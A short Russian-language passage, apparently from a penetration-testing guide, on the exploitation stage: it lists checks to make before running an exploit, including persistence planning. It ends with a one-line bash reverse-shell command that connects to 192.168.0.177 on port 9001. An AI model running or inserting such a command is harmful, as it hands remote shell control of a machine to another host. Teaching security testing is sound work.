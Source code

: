 #### Этап 5. Эксплуатация уязвимости

Предполагается что до этапа эксплуатации у вас есть отлаженные, подготовленный эксплоит для вашей версии ПО и вы можете
его применить.

Убедитесь что:

- вы знаете что будет делать эксплоит, как и почему это сработает;
- эксплоит не нарушит работоспособности системы и не изменит ее состояние существенно;
- эксплоит не содержит закладок и “логических бомб”, которые могут быть спрятаны туда злоумышленником;
- после выполнения эксплойта вам не придется применять его второй раз (подготовьтесь к закреплению доступа, убедитесь что
вы решаете задачу за наименьшее число шагов)


В нашем примере:
```commandline
sh -i >& /dev/tcp/192.168.0.177/9001 0>&1
```
